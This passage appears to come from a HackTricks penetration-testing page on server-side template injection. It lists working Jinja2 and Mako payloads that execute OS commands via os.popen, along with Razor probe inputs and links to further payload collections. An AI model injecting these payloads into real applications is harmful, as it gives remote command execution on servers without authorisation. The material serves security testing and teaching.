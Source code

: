 
```
{{ self._TemplateReference__context.cycler.__init__.__globals__.os.popen('id').read() }}
{{ self._TemplateReference__context.joiner.__init__.__globals__.os.popen('id').read() }}
{{ self._TemplateReference__context.namespace.__init__.__globals__.os.popen('id').read() }}

# Or in the shotest versions:
{{ cycler.__init__.__globals__.os.popen('id').read() }}
{{ joiner.__init__.__globals__.os.popen('id').read() }}
{{ namespace.__init__.__globals__.os.popen('id').read() }}
```

**More details about how to abuse Jinja**:

[Jinja2 SSTI](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection/jinja2-ssti)

Other payloads in [https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#jinja2](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#jinja2)

### 

[](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection#mako-python)

Mako (Python)

```
<%
import os
x=os.popen('id').read()
%>
${x}
```

**More information**

- [https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#mako](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#mako)
 

### 

[](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection#razor-.net)

Razor (.Net)

- `@(2+2) <= Success`
 
- `@() <= Success`
 
- `@("{{code}}") <= Success`
 
- `@ <=Success`
 
- `@{} <= ERROR!`
 
- `@{ <= ERRROR!`
 
- `@(1+2)`
 